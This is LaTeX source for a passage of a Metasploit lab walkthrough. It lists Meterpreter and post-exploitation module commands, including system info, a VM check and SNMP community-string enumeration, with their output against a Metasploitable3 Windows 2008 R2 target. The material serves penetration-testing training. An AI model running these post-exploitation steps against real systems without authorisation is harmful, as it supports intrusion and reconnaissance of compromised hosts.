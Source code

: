 \documentclass[a4paper]{article}
\begin{document}
\begin{itemize}
\begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Session  Station  Name
-------  -------  ----
0        WinSta0  Default
0        WinSta0  Disconnect
0        WinSta0  Winlogon
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize getdesktop}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Session 0\S\D
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize sysinfo}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
Computer        : METASPLOITABLE3
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize background}
    \item \texttt{\footnotesize search windows post}
    \item \texttt{\footnotesize use post/windows/gather/checkvm}
    \item \texttt{\footnotesize sessions}
    \item \texttt{\footnotesize set sessions 2}
    \item \texttt{\footnotesize run}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] Checking if METASPLOITABLE3 is a Virtual Machine ...
[+] This is a VirtualBox Virtual Machine
[*] Post module execution completed
\end{Verbatim}
    \end{example}
    \item \texttt{\footnotesize use post/windows/gather/enum\_snmp}
    \item \texttt{\footnotesize set session 2}
    \item \texttt{\footnotesize run}
    \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] Running module against METASPLOITABLE3
[*] Checking if SNMP is Installed
[*]     SNMP is installed!
[*] Enumerating community strings

\end{Verbatim}
\end{example}
\end{itemize}
\end{document}
